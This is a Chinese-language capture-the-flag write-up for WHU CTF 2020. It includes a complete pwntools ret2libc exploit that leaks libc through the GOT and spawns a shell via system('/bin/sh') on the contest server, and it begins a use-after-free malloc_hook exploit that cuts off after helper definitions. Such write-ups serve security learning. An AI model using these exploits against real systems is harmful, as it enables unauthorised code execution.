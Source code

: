 # WHU CTF 2020


赛场http://iwhu.info/  武大萌新赛（whu的萌新已经强大到这种地步了嘛

虽然题目大部分还算基础，但还是有很多新姿势的。




## pwnpwnpwn

常规的ret2libc，给了lib版本

```python
from pwn import *

context.log_level = 'debug'

# io = process("./pwn")
io = remote("218.197.154.9" ,10004)

elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")

payload = 0x88*'a'+p32(0x804A020+0x500) + p32(elf.plt['write']) + p32(0x804843B) 

payload += p32(1)+ p32(elf.got['write'])

io.sendlineafter("Ready?\n",payload)

write_addr = u32(io.recv(4))
libc_base = write_addr - libc.sym['write']
print hex(libc_base)
sys_addr = libc_base + libc.sym['system']
bin_sh = libc_base + libc.search("/bin/sh").next()

payload = 0x8c*'a'+p32(sys_addr) + 'a'*4 + p32(bin_sh)
io.sendlineafter("Ready?\n",payload)

io.interactive()
```

>  WHUCTF{welc0me_t0_pwn_woRld}

## FFF

`delete`功能里明显可以`uaf`。不让改got，保护全开，估计得改`malloc_hook` 

通过`unsorted bin` 泄露lib，然后`fastbin` 打到`malloc_hook`即可，数据错位得到`0x7f` ，请求`0x60` 即可

```python
#coding:utf-8
from pwn import *
# import pwn_framework as pf
from time import sleep
import sys

global io
ru = lambda p, x : p.recvuntil(x)
sn = lambda p, x : p.send(x)
rl = lambda p  : p.recvline()
sl = lambda p, x : p.sendline(x)
rv = lambda p, x : p.recv(numb = x)
sa = lambda p, a,b : p.sendafter(a,b)
sla = lambda p, a,b : p.sendlineafter(a,b)
rr = lambda p, t : p.recvrepeat(t)
```